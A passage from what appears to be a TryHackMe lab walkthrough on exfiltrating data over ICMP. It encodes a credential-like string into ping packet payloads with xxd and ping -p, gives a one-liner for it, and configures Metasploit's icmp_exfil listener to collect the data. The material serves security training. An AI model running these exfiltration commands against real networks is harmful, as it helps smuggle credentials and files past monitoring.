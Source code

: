   
We used the **`xxd`** command to convert our string to Hex, and then we can use the **`ping`** command with the Hex value we got from converting the **`thm:tryhackme`**.

```bash
🔴🟢🟡                        #Send Hex using the ping command:
root@AttackBox$ ping 10.10.144.103 -c 1 -p 74686d3a7472796861636b6d650a
```

##### :star: :star: :star: **or for a one-liner:** :star: :star: :star:
```bash
ping -c 1 192.198.1.5 -p $(echo -n "test" | xxd -p)
```
  
We sent one ICMP packet using the ping command with **`thm:tryhackme`** Data. Let's look at the Data section for this packet in the Wireshark.

| ![image](https://github.com/user-attachments/assets/31800a6e-1ce0-4b93-b8b2-b87be4c2cd94) |
|-----------|
| *Checking Data Field in Wireshark Screenshot* |

:tada: Excellent! :tada: We have successfully filled the ICMP's Data section with our data and manually sent it over the network using the **`ping`** command. :rocket:

  
## ICMP Data Exfiltration

Now that we have the basic fundamentals of manually sending data over ICMP packets, let's discuss how to use Metasploit to exfiltrate data. The Metasploit framework uses the same technique explained in the previous section. However, it will capture incoming ICMP packets and wait for a **`Beginning of File (BOF)`** trigger value. Once it is received, it writes to the disk until it gets an **`End of File (EOF)`** trigger value. The following diagram shows the required steps for the **Metasploit** framework. Since we need the Metasploit Framework for this technique, then we need the AttackBox machine to perform this attack successfully.

| ![image](https://github.com/user-attachments/assets/84f53917-1a90-4917-8f9c-913263876bd5) |
|-----------|
| *ICMP Data Exfiltration Diagram* |
  
  
Now from the AttackBox, let's set up the Metasploit framework by selecting the **`<red>icmp_exfil</red>`** module to make it ready to capture and listen for ICMP traffic. One of the requirements for this module is to set the <red>**`BPF_FILTER`**</red> option, which is based on TCPDUMP rules, to capture only ICMP packets and ignore any ICMP packets that have the source IP of the attacking machine as <red>follows</red>:

```bash
🔴🟢🟡                        #Set the BPF_FILTER in MSF:
msf5 > use auxiliary/server/icmp_exfil
msf5 auxiliary(server/icmp_exfil) > set BPF_FILTER icmp and not src ATTACKBOX_IP
BPF_FILTER => icmp and not src ATTACKBOX_IP
```

We also need to select which network interface to listen to, **`eth0`**. Finally, <red>executes</red> run to start the module.
